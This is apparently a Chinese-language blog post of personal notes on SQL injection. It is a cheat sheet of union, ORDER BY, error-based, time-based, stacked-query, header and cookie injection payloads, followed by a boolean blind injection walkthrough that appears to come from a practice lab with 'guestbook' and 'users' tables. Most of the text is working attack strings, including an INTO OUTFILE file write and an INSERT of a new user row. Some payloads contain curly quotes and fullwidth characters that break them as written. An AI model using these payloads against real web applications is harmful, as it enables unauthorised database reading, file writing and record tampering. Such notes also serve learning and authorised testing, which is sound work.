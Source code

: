 ```yaml
---
published: true
---
```

### 一些常用的注入
### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如:  id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。  
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名  
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名  
5、知道pass段名有user union select 1，2，3，pass from user  

### Order by注入:  
当原始sql语句是order by时不能使用union等进行注入  
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
 	(rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。)  
2、报错注入  
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+  
3、导入导出文件into outfile参数  
	?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”   
4、延时注入  
	？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+  
#(如果为假，就会有延迟)

### 堆叠查询：
即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行
	id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![](https://ljjbloghub.github.io/img/sql2.jpg)

报错信息’）要需求多构造）
![](https://ljjbloghub.github.io/img/sql2.jpg)
### cookie注入： 
对cookie的值进行union注入,注意cookie是否经过编码

### 盲注： 
- 判断是否存在注入，注入是字符型还是数字型
- 猜解当前数据库名
- 猜解数据库中的表名
- 猜解表中的字段名
- 猜解数据

1.判断注入是字符型还是数字型  
 
输入：1' and 1=1;#  
 
输出：User ID exists in the database.  
 
输入：1' and 1=2;#  
 
输出：User ID is MISSING from the database.  
 
则可以判断为字符型注入。  
2.猜解当前数据库信息  
 
猜解数据库长度:  
 
1' and length(database())=4;#  
 
数据库名的长度是4位.  
 
使用二分法猜解数据库名：  
 
1' and ascii(substr(database(),1,1)) > 100;#  
 
  User ID is MISSING from the database.  
 
1' and ascii(substr(database(),1,1)) < 100;#  
 
  User ID is MISSING from the database.  
 
判断出数据库名的第一个ascii字符为100，就是d，以此按照以上方法可以猜解出数据库名.  
 
3.猜解表信息  
 
猜解表数：  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1; #  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2; #  
 
判断出数据库中存在两个表  
 
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9; #  
 
判断出第一个表名的长度为9  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<110; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103; #  
 
判断出第一个表名的第一个字母是g  
 
重复以上步骤，猜解出两个表名分别为 guestbook，users  
 
4、猜解字段名  
 
猜解字段的数量：  
 
1' and (select count(column_name) from information_schema.columns where table_name='users')=8; #  
 
输出：User ID exists in the database.  
 
猜解字段长度：  
 
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7; #  
猜解字段名:  
1’and ascii（substr(select column_name from information_schema.columns where table_name=‘users’ limit 0,1)，1,1））>97 //猜解第一个字段的第一个字母的ascii
